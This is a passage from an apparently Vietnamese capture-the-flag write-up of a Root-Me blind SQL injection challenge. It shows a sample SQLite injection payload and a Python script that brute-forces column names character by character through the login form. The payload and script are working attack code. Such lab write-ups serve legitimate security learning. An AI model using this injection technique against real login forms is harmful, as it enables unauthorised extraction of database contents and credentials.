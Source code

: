 ```python
            break      
        else:
            print("Length = " + str(i) + ". Wrong !")
```

<p align="center"> <img src="https://user-images.githubusercontent.com/48288606/161272399-76390328-8488-461b-b9cf-0192b35097e4.png"></p>

Vậy là có 3 cột lần lượt độ dài là **8, 8, 4** (Lần nữa, mình mạnh dạn đoán các cột là `username`, `password`, `date` xem đúng không nhen )

### TÌM CHÍNH XÁC TÊN CÁC CỘT

Tương tự, brute-force với tên của cột. Payload mẫu:

```
1' or substr((select name from pragma_table_info('user') limit 0, 1), 1, 1) = 'a' -- 
```

Brute-force:

```python
import requests
import itertools as iter # Chạy 2 range (vùng giá trị) trên 1 vòng lặp for

query = "1' or substr((select name from pragma_table_info('users') limit 2, 1), "  # Đổi giá trị offset trong "limit [offset] [count] " để chọn dòng cột thứ n cần tìm tên
stringResult = ""

for j in range(1, 9): # Đổi giá trị length là giới hạn sao cho phù hợp với độ dài tên cột đã tìm trước đó.
    for i in iter.chain(range(48, 58), range(65, 91), range(97, 123)): # 3 Vùng giá trị trong ASCII table: [0-9] [a-z] [A-Z]
        username = query + str(j) +  ", 1) = '" + chr(i) + "' -- " 
        payload = {
            'username' : username,
            'password' : 123 
        }
        request = requests.post('http://challenge01.root-me.org/web-serveur/ch10/', payload)
        if ('Welcome back' in request.text):
            if (j != 5):
                stringResult += chr(i) 
                print(chr(i) + " is valid. Current string: " + stringResult)
                break    
            else:
                stringResult += chr(i) 
                print(chr(i) + " is valid. Complete column's name: " + stringResult)
                break 
        else:
            print(chr(i) + " is not valid ! Continue ... ")
```

> Lưu ý: Code trên sẽ cho ta tên cột 1, thay đổi lần lượt chỗ `limit 0, 1` thành `limit 1, 1` và `limit 2, 1` để lấy thêm tên cột 2, cột 3. Chỉnh lại thêm chỗ range chỗ `(1, 9)` thành `(1, 5)` đối với cột 3. 

